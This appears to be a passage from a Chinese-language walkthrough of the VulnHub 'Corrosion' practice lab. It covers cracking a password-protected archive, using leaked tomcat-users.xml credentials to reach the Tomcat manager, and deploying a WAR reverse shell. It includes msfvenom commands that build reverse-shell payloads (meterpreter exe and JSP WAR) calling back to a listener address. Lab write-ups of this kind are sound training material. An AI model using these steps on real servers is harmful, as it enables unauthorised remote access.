 

这时再访问这个压缩包进行下载查看，结合来看，这很有可能有密码在里面

![](D:\stu\vulnhub\corrosion靶场\pic-2\12.jpg)

需要密码，和之前一样，可以使用`fcrackzip`破解或使用`jhon`套件先转换再破解

![](D:\stu\vulnhub\corrosion靶场\pic-2\13.jpg)

查看这些获取到的文件，在`tomcat-users.xml`中发现信息

![](D:\stu\vulnhub\corrosion靶场\pic-2\14.jpg)

使用账户密码进行登录，权限来说，`admin`更高，所以以这个身份登录

访问之后发现可以上传文件，不过文件的格式必须是`war`，而这个格式是`java`中的打包

![](D:\stu\vulnhub\corrosion靶场\pic-2\16.jpg)



## 漏洞利用

使用工具生成一个反向连接，所以这里要注意`payload`

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe


msfvenom -p java/jsp_shell_reverse_tcp  LHOST=192.168.1.16 LPORT=8888 -f war -o shell.war
```



![](D:\stu\vulnhub\corrosion靶场\pic-2\17.jpg)



按照上面的上传部署即可

![](D:\stu\vulnhub\corrosion靶场\pic-2\18.jpg)









**这里不知道出了什么问题，导致无法连接，但是上传都是成功的**，

**不过已经有了用户名和密码，管理界面也是可以访问，那么使用`msf`中的模块设置参数进行反弹**

**但是使用`msf`也是出错，所以这里重置靶场，后的IP地址会发生变化**







开启监听，然后点击部署的目录即可成功
